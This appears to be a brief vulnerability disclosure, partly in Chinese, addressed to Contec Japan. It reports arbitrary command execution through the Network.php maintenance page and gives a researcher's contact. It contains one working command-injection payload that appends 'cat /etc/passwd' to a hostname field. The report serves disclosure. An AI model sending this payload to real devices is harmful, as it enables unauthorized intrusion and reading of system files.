

漏洞厂商：

name： Contec Japan Co., Ltd. 

Affected Entity Vendor Name： Contec Japan Co., Ltd.

## security researcher

name1: peishilong

Please contact email: <peisylon@foxmail.com>

我不知道以下产品是贵公司哪一个系列? 也是存在任意命令执行的

### **Maintenance menu**

{width="5.7625in"
height="2.203472222222222in"}

{width="5.760416666666667in"
height="2.0388888888888888in"}

漏洞点：Network.php

{width="5.761805555555555in"
height="4.4118055555555555in"}

hostname=8.8.8.8;cat /etc/passwd&ping=+ping+

{width="5.760416666666667in"
height="2.675in"}

{width="5.758333333333334in"
height="3.0805555555555557in"}

{width="5.761111111111111in"
height="2.94375in"}
